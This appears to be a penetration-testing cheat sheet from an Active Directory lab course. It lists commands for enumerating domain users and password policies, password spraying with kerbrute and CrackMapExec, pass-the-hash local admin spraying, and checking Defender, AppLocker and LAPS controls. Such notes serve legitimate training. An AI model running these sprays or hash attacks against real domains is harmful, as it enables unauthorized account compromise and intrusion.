 

# Password Spraying & Password Policies

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol` | Uses CrackMapExec and valid creds to enumerate the password policy |
| `rpcclient -U "" -N 172.16.5.5`                              | rpcclient to connect the domain through `SMB NULL` sessions |
| `rpcclient $> querydominfo; getdompwinfo`  | to obtain information about the domain and password policy |
| `enum4linux-ng -P 172.16.5.5 -oA ilfreight`                  | Uses `enum4linux-ng` to enumerate the password policy in a target Windows domain, the output in YAML & JSON |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength` | Uses `ldapsearch` to enumerate the password policy in a  target Windows domain |
| `Import-Module .\PowerView.ps1; Get-DomainPolicy` | Used to enumerate the password policy in a target Windows domain |
| `enum4linux -U 172.16.5.5  \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]"` | Uses `enum4linux` to discover user accounts in a target Windows domain |
| `rpcclient -U "" -N 172.16.5.5;  rpcclient $> enumdomuser`    | Uses `rpcclient` to discover user accounts in a target Windows domain |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  \| grep sAMAccountName: \| cut -f2 -d" "` | Uses `ldapsearch` to discover users in a target Windows domain, then filters the output to show only the `sAMAccountName` |
| `ldapsearch -x -H ldap://10.10.10.161 -b "DC=HTB,DC=LOCAL" -s sub "(&(objectclass=user))" \| grep sAMAccountName: \| cut -f2 -d" "` | Uses `ldapsearch` to discover users in a target Windows domain, then filters the output to show only the `sAMAccountName` |
| `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1` | Uses `kerbrute` to perform a password spraying attack against a target Windows domain |
| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +` | Uses `CrackMapExec` to perform a password spraying attack against a target Windows domain |
| ` sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123` | Validating the creds with CrackMapExec |
| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +` | Local Admin Spraying with CrackMapExec |
| `Import-Module .\DomainPasswordSpray.ps1` | Used to import the PowerShell-based |
| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue` | Performs a password spraying attack and outputs the results |

ldapsearch: https://viperone.gitbook.io/pentest-everything/everything/ports/ldap 

# Enumerating Security Controls

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-MpComputerStatus`    | PowerShell cmd-let used to check the status of `Windows Defender Anti-Virus` |
| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections` | PowerShell cmd-let used to view `AppLocker` policies from a Windows-based host. |
| `$ExecutionContext.SessionState.LanguageMode`  | Enumerating `PowerShell Language Mode` |
| `Find-LAPSDelegatedGroups`      | A `LAPSToolkit` function that discovers `LAPS Delegated Groups` from a Windows-based host. |
| `Find-AdmPwdExtendedRights`      | checks the rights on each computer with LAPS enabled for any groups with read access and users with `All Extended Rights` |
| `Get-LAPSComputers`      | Searches for computers that have LAPS enabled, discover `expiration` / `randomized` passwords |


[DEV01]: PS C:\Users\backupadm\Documents> klist